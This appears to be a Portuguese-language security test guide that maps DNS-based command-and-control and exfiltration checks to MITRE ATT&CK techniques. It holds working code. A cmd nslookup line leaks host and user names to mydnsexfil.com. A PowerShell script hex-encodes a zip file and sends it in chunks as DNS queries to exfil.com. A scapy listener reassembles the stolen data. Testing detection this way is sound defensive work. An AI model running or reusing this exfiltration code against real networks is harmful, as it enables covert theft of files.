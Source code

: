   - DNS (Porta: `53`) [[`Command-and-control:T1071.004:Application Layer Protocol: DNS`](https://attack.mitre.org/techniques/T1071/004/)]
    - Checagem simples 
      - Executar no servidor: 
        ```bash
        tcpdump -i any udp and port 53
        ```
      - Executar no cliente:
        ```cmd
        REM LAN
        nslookup %COMPUTERNAME%-%USERNAME%-%DATE:~6,4%%DATE:~3,2%%DATE:~0,2%%TIME:~0,2%%TIME:~3,2%%TIME:~6,2%.mydnsexfil.com 10.10.64.230
        ```

- Teste de exfiltracao (`powershell`)
  - DNS (Porta: `53`) [[`Exfiltration:T1048:Exfiltration Over Alternative Protocol`](https://attack.mitre.org/techniques/T1048/)]
    - Checagem avançada
      - Executar no servidor:
        ```python
        import re
        import sys
        from scapy.all import *

        data = []

        def dns_callback(pkt):
            global data
            if pkt.haslayer(DNSQR):
                data_tmp = pkt[DNSQR].qname.decode().split('.')[0]
                if 'END' in data_tmp:
                    output = ''.join(data)
                    sys.stdout.write(f'\r{output}\n')
                    exit()
                if re.search('^\d+L\w+', data_tmp):
                    if data_tmp.split('L')[1] not in data:
                        data.append(data_tmp.split('L')[1])
                        sys.stdout.write(f'\r{data_tmp}')

        if len(sys.argv) >= 2:
            IPAddr = sys.argv[1]
            sniff(filter=f"udp and port 53 and src host {IPAddr}", prn=dns_callback)
        else:
            print(f'Usage: {sys.argv[0]} Src_IP_Addr')
        ```
        
      - Executar no cliente:
        ```powershell
        # LAN
        $filename = "$env:TMP\caldera\exfiltrate_caldera.zip";
        if (Test-Path $filename) { 
            $fileBytes = [System.IO.File]::ReadAllBytes($filename);
            $hexString = [System.BitConverter]::ToString($fileBytes) -replace '-';
            $blockSize = 30
            $x = 0;
            nslookup -retry=1 "START$((Get-Date).ToString('yyyyMMddHHmmss')).exfil.com" 10.10.64.230;
            for ($i = 0; $i -lt $hexString.Length; $i += $blockSize*2) {
                $hexBlock = $hexString.Substring($i, [Math]::Min($blockSize*2, $hexString.Length - $i));
                nslookup -retry=1 "$($x)L$($hexBlock).exfil.com" 10.10.64.230;
                $x += 1;
            }
            nslookup -retry=1 "END$((Get-Date).ToString('yyyyMMddHHmmss')).exfil.com" 10.10.64.230;
        }
        ```
